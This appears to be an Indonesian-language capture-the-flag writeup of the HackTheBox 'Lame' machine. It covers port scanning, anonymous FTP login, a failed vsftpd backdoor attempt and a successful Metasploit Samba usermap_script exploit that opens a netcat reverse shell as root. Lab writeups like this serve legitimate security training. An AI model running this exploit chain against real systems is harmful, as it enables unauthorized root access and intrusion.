 ```yaml
---
title: "[Writeup][HackTheBox] Lame"
date: 2022-09-29T06:49:09-10:00
author : "justakazh"
tags : ["writeup", "hackhebox", "easy", "linux", "hacking", "samba", "445"]
---
```



## Summary

Machine Name : Lame

Machine Difficult : Easy

Machine Author : [ch4p](https://app.hackthebox.com/users/1)

Machine URL : [Hack The Box](https://app.hackthebox.com/machines/Lame) 

## NMAP ENUMERATION

```bash
┌──(punktester㉿kali)-[~/…/ctf/htb/easy/lame]
└─$ sudo nmap -sV 10.10.10.3                                   
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-13 12:35 HST
Nmap scan report for lame.htb (10.10.10.3)
Host is up (0.38s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.63 seconds
zsh: segmentation fault  sudo nmap -sV 10.10.10.3

```

### 21 - FTP

Target tersebut memiliki port 21 yang dimana port tersebut merupakan port dari Service FTP, target tersebut menggunakan FTP vsftpd 2.3.4. disini saya tertarik untuk mencoba melakukan anonymous login pada FTP tersebut 

```bash
┌──(punktester㉿kali)-[~]
└─$ ftp lame.htb 21
Connected to lame.htb.
220 (vsFTPd 2.3.4)
Name (lame.htb:punktester): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 

```

Service tersebut mengizinkan seseorang untuk login menggunakan akun anonymous, sayangnya saya tidak bisa mencari informasi lebih jauh lagi dikarenakan konfigurasi dari ftp tersebut. selanjutnya saya mencoba mencari exploit untuk vsftpd 2.3.4 pada metasploit

```bash
msf6 exploit(multi/samba/usermap_script) > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 exploit(multi/samba/usermap_script) > 

```

saya menemukan exploit/unix/ftp/vsftpd_234_backdoor yang dimana modul ini adalah untuk memicu vsf_sysutil_extra(); berfungsi dengan mengirimkan urutan byte tertentu 
pada port 21, ketika eksekusi berhasil maka akan menghasilkan pembukaan backdoor pada sistem

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  lame.htb         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/U
                                      sing-Metasploit
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 

```

sayangnya disini saya tidak berhasil melakukan exploitasi tersebut :')

### 22 - SSH

target tersebut menggunakan SSH dengan versi OpenSSH 4.7p1. ini merupakan versi yang sudah usang, disini saya mencoba untuk mencari exploit untuk versi tersebut dengan searchsploit

```bash
┌──(punktester㉿kali)-[~]
└─$ searchsploit OpenSSH 4.7
------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                     |  Path
------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                           | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                     | linux/remote/45210.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation               | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                                           | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                               | linux/remote/45939.py
------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

tidak ada exploit menarik yang berimpact critical untuk versi tersebut, disini saya akan melewati celah tersebut dan saya akan menggunakan exploit tersebut ketika saya membutuhkannya.

### 139,445 - SAMBA

target tersebut memiliki port 139 dan 445 untuk service Samba dengan versi smbd 3.X - 4.X. selanjutnya saya mencoba untuk mencari exploit untuk versi tersebut pada metasploit

```bash
msf6 exploit(multi/samba/usermap_script) > search type:exploit samba

Matching Modules
================

   #   Name                                                 Disclosure Date  Rank       Check  Description
   -   ----                                                 ---------------  ----       -----  -----------
   0   exploit/unix/webapp/citrix_access_gateway_exec       2010-12-21       excellent  Yes    Citrix Access Gateway Command Execution
   1   exploit/windows/license/calicclnt_getconfig          2005-03-02       average    No     Computer Associates License Client GETCONFIG Overflow
   2   exploit/unix/misc/distcc_exec                        2002-02-01       excellent  Yes    DistCC Daemon Command Execution
   3   exploit/windows/smb/group_policy_startup             2015-01-26       manual     No     Group Policy Script Execution From Shared Resource
   4   exploit/windows/fileformat/ms14_060_sandworm         2014-10-14       excellent  No     MS14-060 Microsoft Windows OLE Package Manager Code Execution
   5   exploit/unix/http/quest_kace_systems_management_rce  2018-05-31       excellent  Yes    Quest KACE Systems Management Command Injection
   6   exploit/multi/samba/usermap_script                   2007-05-14       excellent  No     Samba "username map script" Command Execution
   7   exploit/multi/samba/nttrans                          2003-04-07       average    No     Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow
   8   exploit/linux/samba/setinfopolicy_heap               2012-04-10       normal     Yes    Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   9   exploit/linux/samba/chain_reply                      2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)
   10  exploit/linux/samba/is_known_pipename                2017-03-24       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load
   11  exploit/linux/samba/lsa_transnames_heap              2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   12  exploit/osx/samba/lsa_transnames_heap                2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   13  exploit/solaris/samba/lsa_transnames_heap            2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   14  exploit/freebsd/samba/trans2open                     2003-04-07       great      No     Samba trans2open Overflow (*BSD x86)
   15  exploit/linux/samba/trans2open                       2003-04-07       great      No     Samba trans2open Overflow (Linux x86)
   16  exploit/osx/samba/trans2open                         2003-04-07       great      No     Samba trans2open Overflow (Mac OS X PPC)
   17  exploit/solaris/samba/trans2open                     2003-04-07       great      No     Samba trans2open Overflow (Solaris SPARC)
   18  exploit/windows/http/sambar6_search_results          2003-06-21       normal     Yes    Sambar 6 Search Results Buffer Overflow


Interact with a module by name or index. For example info 18, use 18 or use exploit/windows/http/sambar6_search_results

```

terdapat 18 modul yang saya temukan untuk exploit samba tersebut, setelah saya telusuri lebih lanjut target tersebut berpotensi rentan terhadap **Samba "username map script" Command Execution** yaitu pada module nomor 6 **exploit/multi/samba/usermap_script** yang dimana Modul ini mengeksploitasi kerentanan eksekusi perintah di Samba versi 3.0.20 hingga 3.0.25rc3 karena saat menggunakan non-default opsi konfigurasi "username map script". Dengan menentukan nama pengguna mengandung karakter meta shell, sehingga penyerang dapat melakukan RCE pada sistem tersebut.  

```bash
msf6 exploit(multi/samba/usermap_script) > options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  lame.htb         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.16.4       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.16.4:4444 
[*] Command shell session 2 opened (10.10.16.4:4444 -> 10.10.10.3:36449 ) at 2022-10-13 13:11:09 -1000

whoami
root
id
uid=0(root) gid=0(root)
pwd
/

```

GOTCHA! saya berhasil mendapatkan akses tersebut. disini menunjukan bahwa saya mendapatkan akses root pada server tersebut, atau dapat disimpulkan saya tidak perlu melakukan privilege escalation untuk mendapatkan akses root :D






